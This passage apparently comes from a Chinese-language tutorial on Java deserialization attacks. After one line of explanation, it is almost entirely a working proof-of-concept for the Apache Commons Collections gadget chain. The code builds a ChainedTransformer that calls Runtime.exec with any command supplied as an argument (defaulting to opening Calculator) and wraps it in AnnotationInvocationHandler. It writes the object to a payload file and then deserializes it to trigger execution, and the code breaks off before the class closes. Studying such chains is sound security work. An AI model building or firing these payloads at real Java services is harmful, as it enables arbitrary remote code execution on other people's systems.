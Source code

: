 因此，我们只需要用前面构造的`Map`来构造`AnnotationInvocationHandler`，进行序列化，当触发`readObject()`反序列化的时候，就能实现命令执行。

```java
//
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

/**
 * Created by js on 2017/5/6.
 */
public class Test {
    public static void main(String[] args) throws Exception {
        /*
         * Runtime.getRuntime().exec("open /Applications/Calculator.app");
         */
        String command = (args.length != 0) ? args[0] : "/bin/sh,-c,open /Applications/Calculator.app";
        String[] execArgs = command.split(",");
        Transformer[] transforms = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[] {Object.class, Object[].class},
                        new Object[] {null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[] {String[].class},
                        new Object[] {execArgs}
                )
        };
        Transformer transformerChain = new ChainedTransformer(transforms);
        Map tempMap = new HashMap();
        // tempMap 不能为空
        tempMap.put("hack", "you");
        Map exMap = TransformedMap.decorate(tempMap, null, transformerChain);
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, exMap);

        File f = new File("payload1");
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(f));
        oos.writeObject(instance);
        oos.flush();
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(f));
        // 触发代码执行
        Object newObj = ois.readObject();
```